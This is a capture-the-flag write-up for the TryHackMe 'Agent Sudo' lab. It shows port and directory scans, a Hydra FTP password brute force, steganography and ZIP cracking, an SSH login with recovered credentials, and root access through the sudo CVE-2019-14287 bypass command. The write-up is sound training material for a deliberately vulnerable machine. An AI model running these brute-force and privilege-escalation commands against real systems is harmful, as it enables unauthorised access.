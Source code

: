 # Agent Sudo (THM)




---

**Target:** 10.10.82.121

## **Nmap Scan**

**Command:**
```bash
nmap -vv -sS -sV -sC -oN nmap_out.txt 10.10.82.121
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

## **GoBuster Scan**

**Command:**
```bash
gobuster dir -e -u http://10.10.82.121 -w /home/iftx/Desktop/AgentSudo/wordlist/common.txt -x .php,.txt,.js,.html
```

**Result:**
```
http://10.10.82.121/index.php            (Status: 200) [Size: 218]
```

**Finding:** Change User-Agent to agent 'C'.

**Response:**
```
Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
From,
Agent R
```

## **Hydra Brute Force**

**Command:**
```bash
sudo hydra -l chris -P /home/iftx/Desktop/AgentSudo/wordlist/rockyou.txt 10.10.82.121 ftp
```

**Result:**
```
[21][ftp] host: 10.10.82.121   login: chris   password: crystal
```

## **FTP Access & File Download**

**Commands:**
```bash
ftp 10.10.82.121
mget *
```

**Downloaded Files:**
- To_agentJ.txt
- cute-alien.jpg
- cutie.png

## **Steganography Analysis**

### **Extracting Data from Images**

#### **Binwalk**
```bash
binwalk -e cutie.png
```
**Extracted File:** To_agentR.txt (Encrypted ZIP)

#### **Cracking ZIP Password with John the Ripper**
```bash
zip2john 8702.zip > zip_hash
john zip_hash
john zip_hash --show
```
**Password:** alien

**Message from To_agentR.txt:**
```
Agent C,
We need to send the picture to ‘QXJlYTUx’ as soon as possible!
By,
Agent R
```

**Decoding Base64:**
```bash
echo QXJlYTUx | base64 -d
```
**Decoded Value:** Area51

#### **Steghide Extraction**
```bash
steghide extract -sf cute-alien.jpg
```
**Password:** Area51

**Extracted message.txt:**
```
Hi james,
Glad you find this message. Your login password is hackerrules!
Your buddy,
chris
```

## **SSH Login**

```bash
ssh james@10.10.82.121
```
**Credentials:**
```
Username: james
Password: hackerrules
```

## **Privilege Escalation**

### **Checking Sudo Version**
```bash
sudo --version
```
**Result:** Sudo version 1.8.21p2 (CVE-2019-14287 vulnerability found)

### **Exploitation**

```bash
sudo -u#-1 /bin/bash
```

**Root Access Achieved!** ✅




